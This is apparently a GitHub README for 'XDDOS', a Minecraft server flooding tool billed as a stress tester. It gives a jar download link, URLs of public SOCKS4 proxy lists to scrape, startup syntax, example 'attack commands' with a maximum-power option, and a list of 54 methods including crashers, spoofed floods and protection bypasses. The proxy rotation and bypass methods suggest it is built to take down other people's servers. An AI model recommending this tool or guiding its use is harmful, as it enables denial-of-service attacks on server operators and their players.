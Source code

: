 ![alt text](https://cdn.discordapp.com/attachments/949290845222350928/964583278789148763/cover.png)
#                  TEAMXD Discord - https://discord.gg/4DQnbEnv87

## XDDOS is a tool to stress test your minecraft server.

## Features avilable

XDDOS has the following features:

- `54` different attack methods
- `proxy scraper` (just put the links to scrape proxy from in urls.txt)
- `user friendly CLI` dont worry about hard to remeber startup commands
- also supports startup commands 
- auto ip resolver you can use domain names or ip addresses
- chat spam bots
- beautiful cli
- now supports both colored and plain mode just use -noansi as argument

## How to use XDDOS

### Things to know

- CPS is Connection per second. Use -1 as cps to use max power
- Jar is compiled used java 17 so use java 17 to run
- To get protocols go [here](https://wiki.vg/Protocol_version_numbers) and see Version number
 example for version 1.8.9 protocol is 47

### Steps to take to run XDDOS:
 1) Download the jar -> [Download](https://github.com/LastKnell/XDDOS/raw/master/XDDOS.jar)
 2) make a folder to store XDDOS and files related to it and move jar into that folder
 3) now make a file called urls.txt in that folder
 4) put the links to scrape socks4 proxies from in that file
   ### Some links to scrape socks4 proxies from
  ```
  https://raw.githubusercontent.com/TheSpeedX/PROXY-List/master/socks4.txt
  https://raw.githubusercontent.com/ShiftyTR/Proxy-List/master/socks4.txt
  https://raw.githubusercontent.com/monosans/proxy-list/main/proxies/socks4.txt
  https://raw.githubusercontent.com/jetkai/proxy-list/main/online-proxies/txt/proxies-socks4.txt
  ```
  
 5) now open ur terminal and move to that directory 
 6) now use the command to run jar commands can be found below

### Startup Command: 

- For user friendly CLI/auto mode with colors:
```
java -jar XDDOS.jar
```
- For user friendly CLI/auto mode without colors:
```
java -jar XDDOS.jar -noansi
```

- for manual startup with colors:
```
java -jar XDDOS.jar [ip] [protocol] [method] [time] [cps] [y/n]
```
- for manual startup without colors:
```
java -jar XDDOS.jar [ip] [protocol] [method] [time] [cps] [y/n] -noansi
```

#### NOTE! :-
**y/n** is optional y if you want to scrape proxy from links in urls.txt and **n** to use your own proxy) 
#### IMPORTANT :-
if u are using **n** it will use proxies.txt as proxy file

## Example Attack Commands  

- To run botjoiner for 10 seconds with 1000 cps and use auto proxy generator:
```
java -jar XDDOS.jar localhost:25565 47 botjoiner 10 1000 y
```

- To run botjoiner for 10 seconds with 1000 cps and use your own proxy:
```
java -jar XDDOS.jar localhost:25565 47 botjoiner 10 1000 n
```

- To run botjoiner for 10 seconds with MAX POWER or CPS and use auto proxy generator:
```
java -jar XDDOS.jar localhost:25565 47 botjoiner 10 -1 y
```

- To use user friendly CLI:
```
java -jar XDDOS.jar
```

## Methods avilable

- BigHandshake
- BigPacket
- BotJoiner
- BotRiad
- BungeeDowner
- ChatSpam
- ColorCrasher
- CpuDowner
- DoubleJoin
- EmptyNames
- EmptyPacket
- ExtremeJoin
- ExtremeKiller
- Handshake
- InstantDowner
- InvalidData
- InvalidNames
- InvalidSpoof
- IpSpooffFlood
- Join
- LegacyPing
- LegitnameJoin
- LocalHost
- LongHost
- LongNames
- Memory
- MOTD
- nabCry
- NettyDowner
- Network
- NullPing 2.0//newnullping
- NullPing
- Ping
- PingJoin
- Query
- Queue
- QuitExceptions
- RAM
- RandomExceptions
- RandomPacket
- ServerFucker//this is sf
- Slapper
- SmartBot
- Spoof
- TCPBypass
- TCPHit
- UltimateKiller
- UltimateSmasher
- UnexpectedPacket
- uuidCrash
- WaterfallBypass
- XDJoin
- xDSpam
- YooniksCry
